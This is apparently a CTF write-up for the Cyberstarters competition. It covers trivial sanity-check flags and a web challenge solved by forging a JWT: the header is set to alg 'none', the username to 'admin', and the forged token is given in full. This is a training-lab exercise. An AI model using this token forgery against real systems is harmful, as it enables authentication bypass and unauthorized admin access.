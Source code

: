 # Cyberstarters-Ctf

# SANITY CHECK

# Discord
![Discord](https://user-images.githubusercontent.com/51336409/235458307-32f46d31-36a5-4068-a210-8b316ddc8af0.png)

So, for this part I just followed the link the Discord cahnnel and i got this base64 string *RG9IQ1RGe3RyeV90b19iZV9oYWNrdGl2ZV9vbl9kaXNjb3JkX2hlaGVoZWhlaGVoZX0K*

So running this command *echo 'RG9IQ1RGe3RyeV90b19iZV9oYWNrdGl2ZV9vbl9kaXNjb3JkX2hlaGVoZWhlaGVoZX0K' | base64 -d*. I was able to get the flag "DoHCTF{try_to_be_hacktive_on_discord_hehehehehehe}"

# DoHCTF{_colwSPs:(}
![Screenshot_2023-05-01_09_34_23](https://user-images.githubusercontent.com/51336409/235458940-391c7304-14d7-43c1-af8b-55122c535f48.png)

This is really easy and quick, the flag has already been given, which is the name of the challenge, so the flag is "DoHCTF{_colwSPs:(}"

# Twitter
![Screenshot_2023-05-01_09_18_46](https://user-images.githubusercontent.com/51336409/235459330-7e656a38-ef32-4373-9785-cc8ff56b8bc2.png)

The flag for this is just Simply "Yes"


# WEB

# None Shall Pass
![Screenshot_2023-05-01_09_44_05](https://user-images.githubusercontent.com/51336409/235460203-60fe4967-5259-42e8-a99a-9623a3352d11.png)

Following the link *https://diaryofhackers-jwtvuln.chals.io/ink* We got to the website

Going to the websites cookie![Screenshot_2023-05-01_09_45_45](https://user-images.githubusercontent.com/51336409/235460434-ff29a3f1-f9a9-4a37-a315-1129cc5ce610.png)

I got this jwt Token *eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.iJ9U4tIUxxLbbOb_YXVkpvkBqtPsFtAxWIvmcakDfL0*

The token has three part(taking note of the dots) and they are all in Base64, but we are concerned with the first two which are:

# Base64                                                     # Decoded
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9                          {"alg":"HS256","typ":"JWT"}
eyJ1c2VybmFtZSI6Imd1ZXN0In0                                    {"username":"guest"}

So what we are going to do now is that we are going to chane do some changes which will look like this:

{"alg":"none","typ":"JWT"}
{"username":"admin"}

Now we base64 encode them back:
"eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0="
"eyJ1c2VybmFtZSI6ImFkbWluIn0="

Now that we have new enocded strings we join them together with dots, and we also remember the third part of the original token.
So the new token will looklike this:

"eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VybmFtZSI6ImFkbWluIn0=.iJ9U4tIUxxLbbOb_YXVkpvkBqtPsFtAxWIvmcakDfL0"

Replace it with the original token in the using the devtools. Then you get your flag
![Screenshot_2023-05-01_10_02_57](https://user-images.githubusercontent.com/51336409/235463374-0c1b9e21-3f9f-4a87-ba9a-d969be8c8e8c.png)
"DoHCTF{jwt_has_a_none_algo_loll}"








